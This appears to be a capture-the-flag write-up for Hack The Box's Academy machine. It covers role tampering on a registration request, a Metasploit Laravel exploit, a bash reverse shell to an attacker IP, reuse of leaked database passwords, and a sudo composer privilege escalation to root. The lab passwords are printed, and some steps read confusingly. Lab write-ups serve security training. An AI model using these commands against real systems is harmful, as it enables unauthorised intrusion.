

# Box 


https://www.hackthebox.eu/home/machines/profile/297

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [User 2](#user-2)
  + [Root](#root)

# Contents 

## Enumeration

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.215 10.10.10.215
```


Let's add to our /etc/hosts file the subdomain `10.10.10.215 academy.htb`

After folder discovering I've found an admin.php page which leads us to a login page : 


There is also a register page : 


After registering I haven't found anything on the base website. That's why I decided to look at the register POST :


This is a sample request that I've done. We can see there is a roleid. Let's change it to `roleid=1`

Now we can login in the admin page.


Let's add `dev-staging-01.academy.htb` to our /etc/hosts

So we now have a new page : 


Well, We can see that we are running laravel. 

I searched for Laravel  exploit and found (https://www.exploit-db.com/exploits/47129) : 

## Exploitation

It's an exploit on MSF so let's use it. 


it seems that it's working : 


Let's getter a bette reverse_shell :

```bash
/bin/bash -i >& /dev/tcp/10.10.14.28/1236 0>&1
```


## Post-Exploitation

### User


I found a file containing DB creds : 


so we got this password `mySup3rP4s5w0rd !!` but here are all our users : 

````bash
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
g0blin:x:1005:1005::/home/g0blin:/bin/sh
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
root:x:0:0:root:/root:/bin/bash
````

I have tried each one and one suceeded `cry0l1t3`


### User 2

After getting root, i started a linpeas and we got new creds : 

```
mrb3n:mrb3n_Ac@d3my!
```




### Root

Now let's check what we can do as a super-user : 

```bash
sudo -l 
```


It seems that we can run user.

There is a privelege escalation that we can use(https://gtfobins.github.io/gtfobins/composer/) : 

Let's make a script with this code : 

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```


Rooted.